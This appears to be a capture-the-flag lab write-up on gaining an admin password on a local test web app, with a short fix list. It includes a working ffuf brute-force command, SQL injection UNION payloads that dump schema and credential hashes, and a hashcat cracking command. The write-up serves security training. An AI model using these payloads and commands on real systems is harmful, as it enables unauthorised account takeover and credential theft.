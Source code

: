 # How

We can bruteforce the login page at `?page=signin` with a tool like `ffuf`:

```
$ ffuf -u 'http://192.168.122.233/?page=signin&username=admin&password=FUZZ&Login=Login#' -w /usr/share/seclists/Passwords/darkweb2017-top100.txt -fs 1994
[...]
shadow     [Status: 200, Size: 2090, Words: 87, Lines: 55, Duration: 1ms]
```

Alternatively, we could use the SQL injections to dump the
different databases and extract the password for this user:

in `?page=searchimg`:

Dump schema information:

```
id=9 UNION SELECT CONCAT(table_schema,table_name),column_name FROM information_schema.columns-- -
```

Extract data from the db_default table in the Member_Brute_Force DB:

```
id=9 UNION SELECT username,password FROM Member_Brute_Force.db_default-- -
```

Crack the hash with `hashcat`:

```
$ hashcat -m 0 3bf1114a986ba87ed28fc1b5884fc2f8 /usr/share/wordlists/rockyou.txt
[...]
3bf1114a986ba87ed28fc1b5884fc2f8:shadow
[...]
```

# Fix

- Enforce strong passwords
- Setup `fail2ban` to mitigate bruteforcing attempts
- Use Multi Factor Authentication
